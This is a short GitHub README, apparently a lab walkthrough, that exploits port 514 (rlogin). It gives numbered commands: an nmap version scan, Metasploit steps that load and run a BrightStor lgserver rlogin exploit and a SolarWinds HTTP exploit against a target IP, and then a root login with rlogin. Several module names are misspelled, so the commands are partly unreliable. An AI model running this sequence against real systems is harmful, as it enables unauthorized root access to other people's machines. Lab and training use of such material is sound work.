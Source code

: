 ![image](https://github.com/thanawut2903/Port-514-tcpwrapped/assets/159118913/52ccff71-706a-4844-a148-626790310dd8)# Port-514-tcpwrapped
1.nmap -sV (target ip)

2.msfconsole 

3.msf 6 > search rlogin

4.msf 6 > use exploit/windows/brighstor/lgserver_rxrlogin

5.msf 6 > show options

![image](https://github.com/thanawut2903/Port-514-tcpwrapped/assets/159118913/a7da8010-0a33-4f95-b05a-3b9e9856c989)

6.msf 6 > set RHOST (target ip)

7.msf 6 > show target

8.msf 6 > run

9.msf 6 > use exploit/windows/http/solarwids_fsmuserlogin

![image](https://github.com/thanawut2903/Port-514-tcpwrapped/assets/159118913/9ae7b31c-2e51-4ab7-a7ce-9306ea3eb111)

10.msf 6 > set RHOST (target ip)

11.msf 6 > set vhost (target ip)

12.msf 6 > showtarget

13.msf 6 > run

![image](https://github.com/thanawut2903/Port-514-tcpwrapped/assets/159118913/93024b18-cb7a-44b4-a56e-e8549ff8d69d)

14.rlogin -l root (target ip)

![image](https://github.com/thanawut2903/Port-514-tcpwrapped/assets/159118913/e55b5edc-3797-4845-b528-ea837ce365ac)

Reference form : https://www.youtube.com/watch?v=zyILGFWvAVs&t=819s

